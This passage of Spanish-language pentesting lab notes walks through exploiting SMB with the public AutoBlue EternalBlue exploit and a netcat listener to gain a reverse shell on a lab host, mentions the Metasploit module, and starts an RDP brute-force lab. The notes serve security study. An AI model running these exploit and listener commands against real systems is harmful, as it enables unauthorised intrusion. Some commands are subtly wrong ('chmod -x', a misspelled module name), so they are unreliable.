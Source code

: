 3. Para explotar el SMB vamos a usar un exploit llamado [AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010), en el repositorio explica su instalacion y utilizacion.

4. Una vez que tenemos hecha la configuracion del **AutoBlue** antes de lanzarlo deberemos preparar el puerto de escucha con el comando `nc -nvlp 1234` 

5. Ahora antes de lanzarlo tendemos que otorgar permisos de ejecucion a nuestro script, lo haremos con `chmod -x eternalblue_exploit7`

6. Una vez preparados para la escucha ya podremos lanzar `python eternalblue_exploit7 10.10.10.12 shellcode/sc_x64.bin`

7. Si esperamos en la ventana donde estabamos en escucha y todo ha ido bien ya tendremos la consola operativa: ![eternal-lab](img/eternal-lab-4.png)

#### **Laboratorio EternalBlue (metasploit)**

Para automatizar esto con metasploit solo tenemos que buscar el modulo de exploit `exploit/windows/smb/ms17_010_etermalblue` y es practicamente automatico.

---

## RDP 
**Remote Desktop Protocol**
- Es un protocolo de escritorio remoto desarrollado por microsoft con iinterfaz grafica.

- Este protocolo utiliza por defecto el puerto 3389 TCP.

- Requiere de unas credenciales para loguearse, podemos hacer brute-force para conseguirlas y ganas acceso.

---

### **Lab: Windows: Insecure RDP Service**

Vamos a probar de ganar acceso a un servidor que esta corriendo este servicio via fuerza-bruta:

1. Vamos a realizar un nmap de nuestro objetivo para listar los servicios que esta corriendo: ![rdp-lab](img/rdp-lab-1.png) Podemos ver que hay un certificado SSL en el puerto 3333, aunque no sea el puerto por defecto del RDP podría estar corriendo aqui. 
